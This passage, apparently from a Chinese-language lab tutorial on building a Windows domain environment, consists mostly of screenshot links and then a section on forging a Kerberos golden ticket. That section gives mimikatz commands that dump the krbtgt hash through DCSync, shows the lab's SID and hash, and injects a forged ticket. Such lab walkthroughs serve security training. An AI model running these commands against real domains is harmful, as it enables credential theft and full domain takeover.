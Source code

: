 ##### win7

![image-20241102172947762](https://image.201068.xyz/assets/9.域环境搭建/image-20241102172947762.png)

![image-20241102173103679](https://image.201068.xyz/assets/9.域环境搭建/image-20241102173103679.png)

![image-20241102173411351](https://image.201068.xyz/assets/9.域环境搭建/image-20241102173411351.png)

##### dc

![image-20241102172222913](https://image.201068.xyz/assets/9.域环境搭建/image-20241102172222913.png)

![image-20241102172033726](https://image.201068.xyz/assets/9.域环境搭建/image-20241102172033726.png)

![image-20241102173226755](https://image.201068.xyz/assets/9.域环境搭建/image-20241102173226755.png)

![image-20241102173242222](https://image.201068.xyz/assets/9.域环境搭建/image-20241102173242222.png)

![image-20241102173326230](https://image.201068.xyz/assets/9.域环境搭建/image-20241102173326230.png)

### 5.制作黄金票据

域控服务器公开**krbtgt用户的hash值**，客户端**制作黄金票据**实现内网访问

##### 运行mimikatz

- mimikatz查看票据：`kerberos:list`
- mimikatz清空票据：`kerberos:purge`

##### 获取域SID和krbtgt账户的密码散列值

**域内主机管理员**权限运行mimikatz

```bash
‪C:\Users\Administrator\Desktop\mimikatz\x64\mimikatz.exe
lsadump::dcsync /domain:wasj.test /user:krbtgt
```

![image-20241102174813620](https://image.201068.xyz/assets/9.域环境搭建/image-20241102174813620.png)

> krbtgt
>
> Object Security ID：S-1-5-21-1449925610-700517293-2636695646-502
>
> Hash NTLM：844854d0e8a1a657b2ed5c806f938c01

##### 生成黄金票据

生成黄金票据写入内存并查看

```bash
kerberos::golden /user:lisi /domain:wasj.test /sid:S-1-5-21-1449925610-700517293-2636695646-502 /krbtgt:844854d0e8a1a657b2ed5c806f938c01 /ptt
kerberos::list
```
